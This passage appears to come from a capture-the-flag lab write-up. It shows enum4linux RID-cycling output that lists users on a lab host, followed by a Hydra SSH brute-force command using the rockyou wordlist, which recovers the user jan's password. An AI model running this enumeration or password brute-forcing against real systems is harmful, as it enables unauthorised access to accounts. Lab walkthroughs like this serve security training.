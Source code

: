 ```
[+] Getting domain group memberships:

 ======================================================================== 
|    Users on 10.10.103.107 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
S-1-5-21-2853212168-2008227510-3551253869-500 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)
[...]
S-1-5-21-2853212168-2008227510-3551253869-513 BASIC2\None (Domain Group)
[...]
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
[...]
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

 ============================================== 
|    Getting printer info for 10.10.103.107    |
 ============================================== 
No printers returned.


enum4linux complete on Tue Sep 15 08:40:44 2020
```

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.107 ssh
```

5. What is the username?

`jan`

6. What is the password?

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.107 ssh
```

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-15 08:39:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.103.107:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 124.00 tries/min, 372 tries in 00:03h, 14344029 to do in 1927:58h, 16 active
[22][ssh] host: 10.10.103.107   login: jan   password: armando
```